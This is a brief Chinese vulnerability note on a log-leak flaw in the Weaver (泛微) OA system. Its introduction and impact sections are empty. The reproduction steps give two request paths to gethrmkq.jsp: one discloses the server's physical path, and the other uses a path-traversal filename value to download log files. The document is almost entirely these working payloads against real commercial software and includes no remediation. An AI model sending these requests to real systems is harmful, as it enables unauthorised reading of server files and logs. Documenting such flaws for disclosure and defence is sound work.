 泛微oa 日志泄露
===============

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

读取物理路径

    hrm/kq/gethrmkq.jsp?filename=1

日志下载     

    hrm/kq/gethrmkq.jsp?filename=1..\1..\1.txt
